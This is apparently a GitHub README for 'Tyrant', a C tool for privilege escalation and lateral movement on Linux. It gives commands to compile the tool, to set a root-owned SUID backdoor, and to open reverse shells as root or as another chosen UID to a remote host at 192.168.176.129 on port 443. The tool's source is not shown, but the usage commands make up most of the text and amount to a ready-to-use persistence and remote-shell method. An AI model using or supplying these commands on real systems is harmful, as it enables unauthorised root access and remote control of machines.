






 

# Tyrant

Tyrant is an SUID binary privilege escalation tool that allows you to obtain elevated privileges or facilitate lateral movement more efficiently.

## Usage

Compile the source code using the following command:

```bash
$ gcc tyrant.c -o tyrant
```

To display the help information, use:

```bash
$ ./tyrant -h
```



## Retrieve UID 

Simply run the tool without any arguments to list the current user UID along with other user details:

```bash
$ ./tyrant
```



## Specify UID for Reverse Shell: Root Privilege

**Note:** If you attempt to initiate a reverse shell as a low-privileged user, it will fail. You must utilize other vulnerabilities in conjunction with Tyrant.

To initiate a reverse shell with root privileges, execute:

```bash
# ./tyrant -uid 0 -rhost 192.168.176.129 -rport 443
```



Upon execution, Tyrant will automatically set the SUID bit, allowing low-privileged users to perform root privilege escalation operations. For example:

```bash
$ ./tyrant -uid 0 -rhost 192.168.176.129 -rport 443
```





## Specify Other UID

You can also switch to a different user by specifying another UID:

```bash
# ./tyrant -uid 33 -rhost 192.168.176.129 -rport 443
```



 